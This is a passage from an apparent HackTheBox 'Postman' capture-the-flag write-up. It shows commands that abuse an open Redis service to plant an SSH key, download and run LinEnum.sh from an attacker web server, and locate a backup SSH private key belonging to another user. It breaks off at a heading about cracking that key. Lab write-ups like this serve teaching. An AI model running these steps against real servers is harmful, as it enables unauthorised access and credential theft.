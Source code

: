 figure this looks easy enough.

```sh
root@Bread:/mnt/hgfs/CTFS/HackTheBox.eu/boxes/Postman# ssh-keygen -t rsa
root@Bread:/mnt/hgfs/CTFS/HackTheBox.eu/boxes/Postman# $(echo -e "nn"; cat ./id_rsa.pub; echo -e "nn") > bread.txt
root@Bread:/mnt/hgfs/CTFS/HackTheBox.eu/boxes/Postman# cat bread.txt | redis-cli -h 10.10.10.160 -x set crackit
```

### Redis to user

spin up a simple webserver 
`python -m SimpleHTTPServer 8000`

copy across `LinEnum.sh`
```sh
redis@Postman:/tmp/.bread$ wget 10.10.14.2:8000/LinEnum.sh
redis@Postman:/tmp/.bread$ chmod +x LinEnum.sh && ./LinEnum.sh
...
root        702  0.0  3.1  95304 29328 ?        Ss   01:44   0:00 /usr/bin/perl /usr/share/webmin/miniserv.pl /etc/webmin/miniserv.conf
...
```

thats an interesting line, lets look into it... ok webmin seems like a dead end atm.


#### More ENUM!

one of the only other interesting thing was the other user `Matt`.
so lets see what `Matt`'s footprint is like on the system.

```sh
redis@Postman:/$ find . -name "*" -user Matt 2>/dev/null
./opt/id_rsa.bak
./home/Matt
./home/Matt/.bashrc
./home/Matt/.bash_history
./home/Matt/.gnupg
./home/Matt/.ssh
./home/Matt/user.txt
./home/Matt/.selected_editor
./home/Matt/.local
./home/Matt/.local/share
./home/Matt/.profile
./home/Matt/.cache
./home/Matt/.wget-hsts
./home/Matt/.bash_logout
./var/www/SimpleHTTPPutServer.py
```

well look at the first one thats kinda dumb

### crack Matts SSH key
